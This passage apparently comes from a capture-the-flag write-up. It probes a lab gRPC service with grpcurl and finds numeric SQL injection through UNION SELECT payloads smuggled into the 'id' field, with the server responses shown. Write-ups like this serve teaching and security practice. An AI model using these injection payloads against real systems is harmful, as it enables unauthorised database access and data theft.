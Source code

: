 I’ll try some different payloads to see what happens. Adding a `'` seems to break it:

```

oxdf@hacky$ grpcurl -d "id: \"320\"" -H "token: $TOKEN" -plaintext -format text 10.10.11.214:50051 SimpleApp.getInfo
message: "Will update soon."
oxdf@hacky$ grpcurl -d "id: \"320'\"" -H "token: $TOKEN" -plaintext -format text 10.10.11.214:50051 SimpleApp.getInfo
ERROR:
  Code: Unknown
  Message: Unexpected <class 'TypeError'>: bad argument type for built-in operation

```

That could be SQL injection, but it could just as easily be that there is no user with id `320'`. I’ll try adding a `UNION` statement to see if I can inject data:

```

oxdf@hacky$ grpcurl -d "id: \"320' union select 1\"" -H "token: $TOKEN" -plaintext -format text 10.10.11.214:50051 SimpleApp.getInfo
ERROR:
  Code: Unknown
  Message: Unexpected <class 'TypeError'>: bad argument type for built-in operation

```

Still nothing. Interestingly, if I remove the `'`, there’s injection:

```

oxdf@hacky$ grpcurl -d "id: \"320 union select 1\"" -H "token: $TOKEN" -plaintext -format text 10.10.11.214:50051 SimpleApp.getInfo
message: "1"

```

That means that the SQL query is something like `select * from table where userid = {input}`, and the `input` is an integer, so it isn’t wrapped in `"` or `'`.

### Enumerate DB

#### Identify DB

I’ll replace the 1 with `user()` and `version()`, but both break:

```

oxdf@hacky$ grpcurl -d 'id: "320 union select user()"' -H "token: $TOKEN" -plaintext -format text 10.10.11.214:50051 SimpleApp.getInfo
ERROR:
  Code: Unknown
  Message: Unexpected <class 'TypeError'>: bad argument type for built-in operation
oxdf@hacky$ grpcurl -d 'id: "320 union select version()"' -H "token: $TOKEN" -plaintext -format text 10.10.11.214:50051 SimpleApp.getInfo
ERROR:
  Code: Unknown
  Message: Unexpected <class 'TypeError'>: bad argument type for built-in operation

```
